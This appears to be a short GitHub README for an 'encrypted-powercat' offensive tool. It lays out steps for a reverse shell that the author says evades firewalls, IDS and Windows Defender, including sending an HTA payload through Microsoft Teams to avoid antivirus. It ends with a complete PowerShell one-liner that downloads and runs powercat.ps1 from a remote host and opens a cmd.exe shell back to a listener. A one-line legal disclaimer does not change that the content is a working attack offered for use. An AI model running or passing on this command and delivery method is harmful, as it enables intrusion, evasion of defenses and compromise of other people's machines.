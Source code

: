- Use this to get a reverse shell capable of bypassing Firewalls , IDS systems and Windows Defender ;) , please use within legal frameworks of your country
- deliver hta payload via teams to avoid anti-virus detections
- start a python webserver so payload can grab update.bat file
- start a netcat listner
- use python decoder to decrypt session

![image](https://github.com/zakaria-ahmd20/encrypted-powercat/assets/94662829/4b6074fa-d89f-40f8-be95-0c52a2c31421)
^
![image](https://github.com/zakaria-ahmd20/encrypted-powercat/assets/94662829/57e9823a-99d7-4c8a-afab-e55c72aff149)
pwsh -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/zakaria-ahmd20/encrypted-powercat/main/powercat.ps1'); powercat -c 192.168.15.195 -p 443 -e cmd.exe -ge > update.bat"
